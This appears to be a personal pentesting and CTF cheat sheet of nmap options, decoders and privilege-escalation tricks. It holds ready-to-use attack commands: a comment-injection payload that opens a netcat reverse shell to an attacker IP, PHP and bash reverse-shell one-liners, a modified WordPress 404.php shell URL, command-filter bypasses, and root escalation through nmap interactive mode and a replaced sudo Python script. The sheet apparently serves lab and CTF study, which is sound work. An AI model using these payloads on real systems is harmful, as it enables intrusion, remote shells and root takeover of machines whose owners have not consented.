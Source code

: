 *
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.

*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

*
To check if there is a nse script for X service:
`grep "X" /usr/share/nmap/scripts/script.db`

*
Getting rev shell when there is a chance to write a comment
`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON
`python3 -c 'import pty;pty.spawn("/bin/bash")'`   

*
Listing all binaries with suid permission
`find / -perm -u=s -type f 2>/dev/null`

*
link to access a modified WP theme - `404.php` (to get rev shell)
`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`

*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`

*
PHP REV SHELL ONE LINER
`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

*
BASH REV SHELL ONELINER
`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`

*
There are many different converters to john format
`bin2john / zip2john / gpg2john`

*
7z is a file to extract

*
binwalk -->> tool to check of there is a zip file inside .png image
`binwalk -e file`

*
NMAP SHELL
Old version of nmap can be used to escalate to root
`nmap --version` to check version
`nmap --interactive` to enter interacttive mode
and then `!sh` to get root

*
BRAINFUCK decoder
`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

*
XOR DECODER
`http://xor.pw/#`

*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`


*
PHP 5 is vulnerable to "null byte injection" TL;DR adding '\00' in the end of command.

*
Becoming root with python script and with no read/write rights:

`mv script.py script.py.bak` ---> renaming original script
`echo "import pty" > script.py` ---> adding pty library = pseudo terminal utilities
`echo "pty.spawn('/bin/bash')" >> script.py` ---> adding a spawn function

and executing a script with path given in `sudo -l` e.g `sudo -u root /usr/bin/python /home/script.py`


